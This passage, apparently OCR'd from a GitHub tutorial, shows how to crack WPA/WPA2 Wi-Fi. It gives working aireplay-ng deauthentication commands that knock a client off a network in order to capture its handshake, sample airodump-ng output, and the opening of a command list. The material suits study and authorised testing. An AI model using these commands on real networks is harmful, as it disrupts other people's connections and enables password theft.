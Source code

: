       EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
Deauth Attack
A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to crack. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect, providing you with a 4-way handshake if you are listening with airodump-ng.

Use airodump-ng to monitor a specific access point (using -c channel --bssid MAC) until you see a client (STATION) connected. A connected client look something like this, where is 64:BC:0C:48:97:F7 the client MAC.

 CH  6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ]                                         
                                                                                                                                           
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  -19  75     1043      144   10   6  54e  WPA2 CCMP   PSK  ASUS                                                         
                                                                                                                                           
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                 
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  64:BC:0C:48:97:F7  -37    1e- 1e     4     6479  ASUS
Now, leave airodump-ng running and open a new terminal. We will use the aireplay-ng command to send fake deauth packets to our victim client, forcing it to reconnect to the network and hopefully grabbing a handshake in the process.

# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
You can optionally broadcast deauth packets to all connected clients with:

# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
Once you've sent the deauth packets, head back over to your airodump-ng process, and with any luck you should now see something like this at the top right: [ WPA handshake: 9C:5C:8E:C9:AB:C0. Now that you've captured a handshake you should be ready to crack the network password.

List of Commands
Below is a list of all of the commands needed to crack a WPA/WPA2 network, in order, with minimal explanation.

# put your network device into monitor mode
airmon-ng start wlan0
